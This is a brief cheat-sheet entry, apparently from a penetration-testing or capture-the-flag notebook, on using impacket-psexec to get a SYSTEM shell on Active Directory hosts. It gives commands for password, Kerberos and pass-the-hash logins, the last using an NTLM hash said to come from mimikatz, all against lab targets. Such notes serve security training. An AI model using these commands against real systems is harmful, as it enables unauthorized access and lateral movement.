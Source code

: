 ```yaml
---
tags:
  - active_directory
---
```

# psexec

Use administrative credentials to authenticate to an Active Directory machine as `nt authority\system`

Requires:

- User logging in to be a member of the `administrators` local group
- `ADMIN$` share must be available (default)
- File and printer sharing must be turned on (default)

## Capabilities

```bash
# Authenticate with username/password
impacket-psexec 'analysis.htb/Mojo:Password123!@10.129.189.54'

# Authenticate with kerberos
impacket-psexec support.htb/Administrator@dc.support.htb -k -no-pass

# Authenticate with hash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

Note: In the hash example, we fill in the left side of the colon with zeros, and the right is the administrators NTLM hash pulled from `mimikatz`
